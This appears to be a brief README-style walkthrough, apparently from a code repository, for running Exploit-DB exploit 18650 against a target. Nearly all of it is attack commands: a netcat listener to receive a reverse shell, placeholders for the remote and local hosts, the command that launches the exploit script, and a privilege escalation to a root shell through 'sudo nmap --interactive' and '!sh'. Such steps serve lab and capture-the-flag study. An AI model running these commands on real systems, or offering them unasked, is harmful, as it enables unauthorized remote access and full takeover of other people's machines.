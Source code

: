 ### Start listener
```
nc -lnvp <lport>
```

### Open script an adjust:
```
rhost="<rhost>"
lhost="<lhost>"
lport=<lport>
extension="<extension>"
```

### Exploit
```
python 18650.py
```

### Escalate privilege
```
sudo nmap --interactive
!sh
```

### References
https://www.exploit-db.com/exploits/18650  

